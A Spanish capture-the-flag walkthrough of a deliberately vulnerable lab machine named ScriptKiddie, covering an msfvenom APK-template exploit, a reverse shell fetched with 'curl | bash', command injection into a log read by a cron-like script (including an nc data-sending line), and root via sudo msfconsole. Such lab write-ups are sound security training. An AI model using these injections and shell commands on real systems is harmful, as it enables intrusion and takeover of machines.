# ScriptKiddie



Launchpad -> Focal
Whatweb ->
http://10.129.95.150:5000 [200 OK] Country[RESERVED][ZZ], HTTPServer[Werkzeug/0.16.1 Python/3.8.5], IP[10.129.95.150], Python[3.8.5], Title[k1d'5 h4ck3r t00l5], Werkzeug[0.16.1]
Werkzeug 0.16.1
Python 3.8.5
Flask 0.16.1

- 5000 -> Werkzeug web server



- Al parecer si generamos un payload, nos da información de dónde se guardan archivos en el servidor. También parece que solo deja hacerlo para windows y android. Los scripts expiran en 5 mins



/static/payloads/a8d45d6eebd0.exe

- Intentamos inyecciones en los campos, ya que parece que todo lo ejecuta en la máquina de por detrás con comandos como nmap, msfvenom o searchsploit, pero si intentamos meter un
```bash
; whoami
```

nos lo reconoce y nos envía un



Inclusive nos amenaza

- Gobuster -> Nada

- Searchsploit msfvenom


Tiene toda la pinta porque lo que hace la web es justamente dejarnos subir una template

- Nos lo traemos y cambiamos el payload



- Nos creamos el archivo ejecutando el script en python
```bash
python3 49491.py
```



nos genera una *evil.apk* en */tmp/tmpz1o9l9ez/evil.apk*

- Lo subimos a la web y mientras nos ponemos a la escucha de trazas icmp
```bash
sudo tcpdump -i tun0 icmp -n
```



Obtenemos RCE



- Modificamos el payload para enviarnos una shell con curl, creando un recurso *index.html* que el payload irá a buscar y pipeará con bash para enviarnos una shell



kid

## Escalada

Users -> kid, pwn y root

En pwn hay un proceso *scanlosers.sh* que hace un escaneo a la ip de máquinas que depositan logs en /home/kid/log/hackers. Al fina hace una comprobación por si el número de lineas que hay en $log es greater than 0, hace un echo de una línea vacía en $log, para eliminar el contenido



Este archivo es ejecutado por pwn por lo que sería una vía potencial de escalada, si algún proceso cron ejecuta este archivo podríamos ejecutar un path hijacking para obtener una bash como pwn

Buscamos tareas cron en /etc/cron.d pero no encontramos nada

El archivo /home/kid/logs/hackers en principio no nos deja modificarlo, pero si damos permisos al directorio (cuyo propietario es nuestro usuario kid) y después permisos al archivo hackers, podremos escribir en el.
```bash
chmod 777 .
chmod 777 hackers
```

Parece que en cuanto escribimos algo se elimina, por lo que podríamos pensar que hay algún proceso que triggerea cuando se escribe en ese archivo, y que por lo tanto, por detrás se está ejecutando  *scanlosers.sh*

Nos aprovecharemos de que en *scanlosers.sh* se ejecutan comandos sin llamarlos desde el path raiz, podríamos intentar un path hijacking
```bash
cd /tmp
nano sh
```

```bash
mkdir /tmp/pwn3d
```

-> para probar
```bash
chmod u+x sh
export PATH=/tmp:$PATH
```

En principio no acontece

- Si probamos a ponernos en escucha con
```bash
sudo tcpdump tun0
```

y hacemos un intento de inyección en la web con
```bash
; whomai
```

algo sucede



Por lo que la máquina si está haciendo algo cuando dice que nos hackeará de vuelta

- Como no vemos ninguna tarea cron tiraremos de una tool llamada **pspy** para investigar
Buscamos pspy github y nos vamos a releases para descargarnos **pspy64**
https://github.com/DominicBreuker/pspy/releases

- Nos lo subimos a la máquina víctima
Antes vamos a reducir su peso en megas
Si hacemos
```bash
du -hc pspy64
```

nos devuelve 3.0M
```bash
chmod u+x pspy64
```

Le hacemos un
```bash
upx pspy64
```

y nos lo baja a 1.2M
```bash
wget http://10.10.14.96/pspy64
```

- Ejecutamos
```bash
./pspy64
```

Y ahora tenemos un monitor de procesos que se ejecutan en la máquina en tiempo real, tanto los cron como los provocados por nosotros.
Esto nos servirá para ver qué procesos saltan cuando hacemos un
```bash
; whoami
```

en la web



Vemos que efectivamente es lo que sospechábamos, el usuario con id 1001 (pwn) ejecuta el */home/pwn/scanlosers.sh*

Volvemos al script de scanlosers.sh


```bash
cut -d ' ' -f3-
```

: corta el string por el espacio ' ' y se queda con desde el argumento 3, hasta el final ( si fuera -f 3, solo se quedaría con el argumento 3), por lo que si conseguimos escribir algo detrás de la ip, podríamos efectuar una inyección

- Vamos a buscar qué formato le dan al log que enviarán a /home/kid/logs/hackers, esto se envía en /home/kid/html/app.py, lo pasaremos a nuestra máquina para inspeccionarlo mejor
Vemos en la función de *searchsploit(text, srcip)*, que se aplica un write en el archivo que nos interesa /home/kid/logs/hackers.



Lo que escribe es el resultado de **f'[{datetime.datetime.now()}]** seguido de srcip que será la IP, ya que con lo que se queda el scanlosers.sh es con la IP sobre la que  aplicará el nmap

- Vamos a comprobar qué forma tiene ese log
```bash
python3 -i
```

```python
import datetime
f'[{datetime.datetime.now()}]'
```



Nos devuelve
\[2026-06-16 20:19:38.592985],
Lo cual sería el argumento 1 y el argumento 2, por lo que el 3 es nuestra IP

- Vamos a validar esto escribiendo un log con al forma correcta en el archivo *hackers* poniéndonos previamente en escucha con *tcpdump* para comprobar que el proceso salta y lee nuestra IP correctamente
El log será
```bash
echo '[2026-06-16 20:19:38.592985] 10.10.14.96' > hackers
```

Recibimos paquetes de nmap por lo que parece que el log lo interpreta correctamente

- Lo que podemos hacer es inyectar detrás del parámetro de la IP un
```bash
; comando #
```

para que el
```bash
cut -d' ' -f3-
```

se quede con la IP y todo lo que haya detrás y en **{ip}** del nmap se acontezca el RCE
- Por lo que esta línea
```bash
nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null
```

Quedaría como
```bash
nmap --top-ports 10 -oN recon/10.129.95.150; whoami #.nmap 10.129.95.150 2>&1 >/dev/null
```

- El log que tendríamos que meter en el archivo *hackers* para comprobar el RCE sería por ejemplo
```bash
[2026-06-16 20:19:38.592985] 10.10.14.96; whoami | nc 10.10.14.96 4444 #
```



Obtenemos RCE como el usuario **pwn**

- Nos lanzamos una shell aprovechando el mismo *index.html* que usamos para la intrusión
```bash
echo '[2026-06-16 20:19:38.592985] 10.10.14.96; curl http://10.10.14.96 | bash #' > hackers
```



pwn

- Con
```bash
sudo -l
```

vemos
(root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

Podemos ejecutar metasploit sin contraseña
```bash
sudo msfconsole
```

- GTFOBins
```bash
irc
```

Esto nos permitirá ejecutar una consola interactiva de ruby
```
exec "/bin/bash"
```

ó
```
system("bash")
```

root
